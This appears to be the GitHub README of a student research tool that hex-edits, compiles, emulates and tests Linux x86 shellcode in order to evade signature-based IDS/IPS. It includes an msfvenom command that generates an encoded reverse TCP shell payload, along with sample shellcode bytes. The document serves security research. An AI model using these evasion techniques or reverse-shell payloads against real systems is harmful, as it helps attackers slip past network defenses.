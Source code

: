 # Shellcode Assistant

A useful helper script for hex editing, writing and/or testing **Linux x86 shellcode** to bypass IDS/IPS.

**Shellcode Assistant is designed to be used on Kali Linux Rolling x86**

The tool was developed for a Offensive Technologies research project by students of OS3. We were looking for a comfortable and efficient way of altering existing shellcode. With this tool, the experiments of our research can easily be reproduced.

This tool is designed to make the process of altering shellcode to bypass **signature based** detection easier. It takes a raw shellcode file as input and offers various options, including dumping code in hexadecimal or Intel x86 ASM format, compiling code using a C wrapper and executing and checking a raw shellcode file for a specific string. In addition, it can emulate, analyse and generate a graph for x86 shellcode using Libemu. Automatic recompilation, which triggers when the modification time stamp changes, is another useful feature that might save time when raw shellcode is manually modified and saved using a hex editor. **We recommend using the automatic recompilation mode**.

The script also provides an **interactive command line interface**, similar to Metasploit's nasm-shell, for assembling and disassembling instructions. It does this using the Capstone and Keystone libraries.

## Dependencies
* Python 3 (≥ 3.5)
* Capstone
* Keystone
* Libemu
* gcc

## Setup

```
# python3 libraries
pip3 install capstone
pip3 install keystone-engine
pip3 install colorama

# gcc is required for compiling the raw shellcode into an executable
sudo apt install build-essential

# libemu is required for outputting a graph using Libemu's sctest
sudo apt install graphviz
sudo apt install libemu2
```

## Usage

```
=============================================================
                -- Shellcode Assistant v1.0 --
=============================================================

usage: shellcode_assistant.py [-h] -f FILE [-o OFFSET] [-t] [-s STDOUT]
                              [-se STDERR] [-x] [-c] [-e] [-d] [-a] [-A] [-R]
                              [-ob]

== Tool to assist a user in modifiying shellcode ==

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Enter path to file.
  -o OFFSET, --offset OFFSET
                        Set hexadecimal program offset.
  -t, --test            Run and test compiled executable.
  -s STDOUT, --stdout STDOUT
                        Check STDOUT for a specific string.
  -se STDERR, --stderr STDERR
                        Check STDERR for a specific string.
  -x, --hexdump         Dump hex code.
  -c, --compile         Compile file using C wrapper.
  -e, --emulate         Emulate and analyse shellcode using Libemu.
  -d, --disassemble     Disassemble shellcode.
  -a, --assembler       Start ASM interactive assembler mode.
  -A, --all             Run all functions above.
  -R, --autorecompile   Automatic recompiling and testing upon file
                        modification time change.
  -ob, --objdump        Use Linux objdump instead of Python Capstone library.
```

*The Python Capstone library might truncate code in certain cases. Use --objdump if necessary.*

## Examples

```
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -A -s "Hello World" -o 40404040
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -R
```

### Demo - Modifying Shikata Ga Nai Encoded 'Hello World' Shellcode

<img title="" src="https://raw.githubusercontent.com/alexander-47u/Shellcode-Assistant/master/demo.gif" width="1000px" height="565" alt="" data-align="center">

### ASM Interactive Assembler / Dissassembler

```
...
0x40404064    2    31 DB               xor    ebx, ebx
0x40404066    2    CD 80               int    0x8
---------------------------------------
Last Modified: Sat May 16 16:48:48 2020
---------------------------------------
asm > ?
x86-instruction | recompile | test | emulate | ls | clear | exit
asm > jmp esp; inc ecx; inc ebx
\xFF\xE4\x41\x43
asm > 0xFFE5
jmp    ebp
asm > \xFF\xE6
jmp    esi
asm > emulate

Shellcode emulated:
Diagram saved as 'testing.bin.dot' & 'testing.bin.png'
---------------------------------------
asm >
```

### Obtaining raw shellcode

#### Method 1 - Compiling ASM and Dumping Code Section to HEX

```
1. Compile ASM Code
nasm -f elf32 helloworld.asm -o helloworld.o

2. Dump object code to hex code
objdump -d ./helloworld.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

3. Save hex shellcode to raw shellcode file using echo
echo -e "\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\x52\x68\x72\x6c\x64\x0a\x68\x6f\x20\x57\x6f\x68\x48\x65\x6c\x6c\x89\xe1\xb2\x0c\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80" > testing.bin
```

#### Method 2 - Using Metasploit's Shellcode Generator

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f raw -b "\x00" -e x86/shikata_ga_nai -o testing.bin
```
### Demo - Diagram Generated by Libemu

<img title="" src="https://raw.githubusercontent.com/alexander-47u/Shellcode-Assistant/master/demo.png" width="600px" height="484" alt="" data-align="center">

## Authors

Alexander-OS3

Jelle-OS3

## TO-DO

Create x64 version of script

Create Windows versions of script
